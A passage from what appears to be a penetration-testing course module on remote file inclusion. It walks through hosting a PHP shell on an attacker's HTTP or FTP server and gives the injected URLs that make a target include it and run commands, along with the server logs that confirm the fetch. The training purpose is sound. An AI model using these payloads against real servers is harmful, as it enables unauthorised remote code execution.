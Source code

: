 Now, we can start a server on our machine with a basic python server with the following command, as follows:


```shell-session
smoothment@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

Now, we can include our local shell through RFI, like we did earlier, but using`<OUR_IP>` and our`<LISTENING_PORT>`. We will also specify the command to be executed with`&cmd=id`:

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

As we can see, we did get a connection on our python server, and the remote shell was included, and we executed the specified command:


```shell-session
smoothment@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```

**Tip:** We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload

## FTP

As mentioned earlier, we may also host our script through the FTP protocol. We can start a basic FTP server with Python's`pyftpdlib`, as follows:

```shell-session
smoothment@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

This may also be useful in case http ports are blocked by a firewall or the`http://` string gets blocked by a WAF. To include our script, we can repeat what we did earlier, but use the`ftp://` scheme in the URL, as follows:

```
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

As we can see, this worked very similarly to our http attack, and the command was executed. By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:
